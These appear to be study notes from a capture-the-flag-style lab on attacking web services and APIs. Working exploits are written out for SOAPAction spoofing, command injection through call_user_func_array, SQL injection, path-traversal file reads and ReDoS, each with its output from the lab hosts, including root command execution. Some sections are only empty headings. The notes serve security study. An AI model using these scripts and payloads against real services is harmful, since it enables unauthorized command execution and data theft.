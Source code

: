

## Web Services Attacks

## SOAPAction Spoofing

- If HTTP is the transport of choice, it is allowed to use an additional HTTP header called **SOAPAction**, which contains the operation's name. 
- The receiving web service can identify the operation within the SOAP body through this header without parsing any XML.
- If a web service considers only the **SOAPAction** attribute when determining the operation to execute, then it may be vulnerable to **SOAPAction spoofing**

**EX :**
- in the above service we have SOAPAction operation called `ExecuteCommand`
- if we use this script to send soap request to `ExecuteCommand`
```python
import requests 


url = "http://10.129.255.79:3002/wsdl"

while True :
    cmd = input("$ ")
    payload = f"""<soap:Envelope
    xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xmlns:tns="http://tempuri.org/"
    xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">
    <soap:Body>
        <ExecuteCommandRequest xmlns="http://tempuri.org/">
            <cmd>{cmd}</cmd>
        </ExecuteCommandRequest>
    </soap:Body>
</soap:Envelope>"""
    res = requests.post(url=url , data=payload , headers={"SOAPAction":'"ExecuteCommand"'} )
    print(res.text)
```
- response 
```shell
python3 shell.py

$ whoami
<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandResponse xmlns="http://tempuri.org/"><success>false</success><error>This function is only allowed in internal networks</error></ExecuteCommandResponse></soap:Body></soap:Envelope>
```

- using operation `ExecuteCommand` return an error  `This function is only allowed in internal networks`
- so we can use another operation in the service that is allowed outside internal network but the `SOAPAction` Header will be set to `ExecuteCommand`
- lets use `Login` operation , put `LoginRequest` element in the body but with `cmd` parameter 
```python
import requests 


url = "http://10.129.255.79:3002/wsdl"

while True :
    cmd = input("$ ")
    payload = f"""<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:tns="http://tempuri.org/"
    xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">
    <soap:Body>
        <LoginRequest xmlns="http://tempuri.org/">
            <cmd>{cmd}</cmd>
        </LoginRequest>
    </soap:Body>
</soap:Envelope>"""
    res = requests.post(url=url , data=payload , headers={"SOAPAction":'"ExecuteCommand"'} )
    print(res.text)

```
- response 
```shell
 python3 shell.py 
 
$ whoami
<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><success>true</success><result>root
</result></LoginResponse></soap:Body></soap:Envelope>
```



## Command injection

you can achieve a command injection through API 

**EX:**
- consider this PHP REST API 
```php
<?php
function ping($host_url_ip, $packets) {
        if (!in_array($packets, array(1, 2, 3, 4))) {
                die('Only 1-4 packets!');
        }
        $cmd = "ping -c" . $packets . " " . escapeshellarg($host_url);
        $delimiter = "\n" . str_repeat('-', 50) . "\n";
        echo $delimiter . implode($delimiter, array("Command:", $cmd, "Returned:", shell_exec($cmd)));
}

if ($_SERVER['REQUEST_METHOD'] === 'GET') {
        $prt = explode('/', $_SERVER['PATH_INFO']);
        call_user_func_array($prt[1], array_slice($prt, 2));
}
?>
```
- the ping function is safe , but the Webservice is not it is using `call_user_func_array` which take args directly from the user 
- `call_user_func_array` call a function using the first argument and set it's arguments using the second argument
- so we can make a request to call the system function and set it's argument like this
```bash
$ curl "http://10.129.255.79:3003/ping-server.php/system/id"  
uid=0(root) gid=0(root) groups=0(root)
```


# APIs Attacks

## SQLI 

- try inject SQL in API paramters 
```bash
curl "http://10.129.230.235:3003/?id=1+OR+1=1+--+-"

[{"id":"1","username":"admin","position":"1"},{"id":"2","username":"HTB-User-John","position":"2"},{"id":"3","username":"WebServices","position":"3"},{"id":  
"8374932","username":"HTB{THE_FL4G_FOR_SQLI_IS_H3RE}","position":"736373"}]
```
- other example in soap based api 
```python 
import requests 


url = "http://10.129.202.133:3002/wsdl"

while True :
    username = input("username ")
    password = input("passowrd ")
    payload = f"""<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:tns="http://tempuri.org/"
    xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">
    <soap:Body>
        <LoginRequest xmlns="http://tempuri.org/">
            <username>{username}</username>
            <password>{password}</password>
        </LoginRequest>
    </soap:Body>
</soap:Envelope>"""
    res = requests.post(url=url , data=payload , headers={"SOAPAction":'"Login"'} )
    print(res.text)

```
- result
```shell-session
$ username admin' -- -
$ passowrd


<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><id>0</id><name>Administrator</name><email>admin@htb.net</email><username>admin</username><password>FLAG{1337_SQL_INJECTION_IS_FUN_:)}</password></LoginResponse></soap:Body></soap:Envelope>
```

## Insecure File Upload

## LFI
```shell-session
$ curl "http://<TARGET IP>:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"

127.0.0.1 localhost
127.0.1.1 nix01-websvc
```

## XSS
- like reflection in error messages 

## SSRF



## Regular Expression Denial of Service (ReDoS)
	Regular Expression Denial of Service (ReDoS) is a type of cyber attack that        targets applications or systems that use regular expressions to process and        validate input data.

**EX:**
```shell-session
curl "http://<TARGET IP>:3000/api/check-email?email=test_value"

{"regex":"/^([a-zA-Z0-9_.-])+@(([a-zA-Z0-9-])+.)+([a-zA-Z0-9]{2,4})+$/","success":false}
```

- The second and third groups are doing bad iterative checks.
- lets try this exploit and the server will respond in more time :

```shell-session
curl "http://<TARGET IP>:3000/api/check-email?email=jjjjjjjjjjjjjjjjjjjjjjjjjjjj@ccccccccccccccccccccccccccccc.55555555555555555555555555555555555555555555555555555555."

{"regex":"/^([a-zA-Z0-9_.-])+@(([a-zA-Z0-9-])+.)+([a-zA-Z0-9]{2,4})+$/","success":false}
```


## XXE
